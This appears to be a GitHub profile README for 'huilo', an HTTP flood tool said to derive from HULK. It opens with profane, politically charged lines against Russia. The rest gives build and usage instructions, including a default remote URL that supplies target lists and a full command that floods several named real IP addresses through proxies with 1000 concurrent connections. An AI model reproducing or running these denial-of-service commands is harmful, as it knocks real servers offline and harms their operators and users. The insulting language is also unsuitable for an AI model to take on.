 - 👋 Hi, I’m @russian-boat-fuck-you
- 👀 I’m interested in fuck Putin's diplomacy
- 🌱 I’m currently learning yoha and dzen
- 💞️ I’m looking to collaborate on fuck russian boat to have a peace overall the world!
- 📫 How to reach me: I will found you when need

<!---
russian-boat-fuck-you/russian-boat-fuck-you is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->

### (c) The initial idea is coming from https://github.com/grafov/hulk

#### Build an executable binary
    go build huilo.go
    
#### Usage
    ./huilo --help
    Usage of huilo:
        -t, --max-routines int      Maximum number of simultaneous connections (default 500)
        -s, --site site-url         Sites list. Can be used multiple times. Have precedence over sites-url if set site-url
        -u, --sites-url sites-url   URL to fetch sites list from sites-url  (default "https://hutin-puy.nadom.app/sites.json")
              
    http_proxy=10.2.3.4:5678 https_proxy=10.2.3.5:5679 socks5_proxy=10.2.3.6:5680 ./huilo --max-routines 1000 --site http://178.248.237.238 --site http://185.170.2.62 -s https://185.170.2.62 -s http://195.208.109.88 --site https://195.208.109.88
